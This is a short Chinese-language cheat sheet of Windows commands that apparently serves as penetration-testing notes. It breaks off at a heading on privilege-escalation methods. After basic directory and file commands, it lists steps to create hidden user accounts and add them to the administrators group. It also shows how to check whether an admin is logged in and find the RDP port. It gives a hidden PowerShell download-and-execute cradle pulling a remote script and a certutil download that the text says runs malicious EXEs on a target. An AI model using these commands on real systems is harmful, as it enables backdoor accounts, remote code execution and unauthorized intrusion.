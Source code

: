 ## Windows 基础命令

type   显示文本内容         type  1.txt
dir    显示当前目录内容

/b 显示文件夹或文件的名字
/s 显示指定目录和所有子目录中的文件

1. **列出当前目录及其子目录中的所有文件和文件夹**：

   ```cmd
   dir /s /b
   ```

2. **列出特定目录中的所有文件和文件夹**：

   ```cmd
   dir C:\Users\YourUsername\Documents /s /b
   ```

3. **列出特定类型的文件**（例如所有 `.txt` 文件）：

   ```cmd
   dir C:\Users\YourUsername\Documents\*.txt /s /b
   ```

* 是通配符，可以代表任意字符串

del 删除文件
ipconfig 查看IP地址
ipconfig /all    查看所有ip配置信息
net user         查看用户
net user ad   查看用户权限   ad为用户名
net user  username  password /add     username 和password为你要添加的账号和密码
net user  username$  password  /add     隐藏用户
net user   username    /del   删除  或者username$  删除隐藏
net localgroup administrators username /add         username为要添加管理员组别的用户
net localgroup administrators     查看所有用户包括隐藏
query user || qwinsta    查看管理员是否在线
tasklist /svc | find "Ter"，查找 TermService 的 PID
netstat -ano | find "1592"，查看 TermService 使用的端口，如示例中的 3389
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.1/powershell.txt'))"
powershell 隐藏执行下载脚本
certutil.exe -urlcache -split -f “文件下载地址” d:\test.exe            将文件下载到d盘命名为test.exe
Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机上执行恶意EXE文件



## Windows 提权类型与方法

### 类型

纵向提权：低权限角色获得高权限角色的权限 横向提权：获取同级别角色的权

### 方法
